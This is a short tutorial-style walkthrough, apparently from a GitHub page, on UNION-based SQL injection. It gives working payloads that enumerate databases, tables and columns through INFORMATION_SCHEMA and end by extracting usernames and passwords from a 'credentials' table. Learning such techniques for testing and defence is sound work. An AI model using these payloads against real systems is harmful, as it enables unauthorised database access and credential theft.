 we can discover the databases and table names using the following injections 

(since we are using a union injection we first need to find the amount of collumns in the table by using junk data (null,null,null.....))

to find the database names we can use this injection: 

```sql
' UNION select null,schema_name,null,null from INFORMATION_SCHEMA.SCHEMATA-- -
```

this (if the number of collumns is correct) should reveal the database names 

we can the current database we are in by using:

```sql
' UNION select null,database(),null,null-- -
```

if we find a database that we are interested in we can determin the table names by using an injection like: 

```sql
' UNION select null,TABLE_NAME,TABLE_SCHEMA,null from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

(this would be for a database called "dev")

after we determin the tables we need to find the collumns 

this will show us the collumn names for the selected table name (in this case "credentials"):

```sql
' UNION select null,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

now that we know all the details we can retrieve the information from the collumns we found (username ; password) using this:

```sql
' UNION select null, username, password, null from dev.credentials-- -
```

(from the database "dev" and the table "credentials")
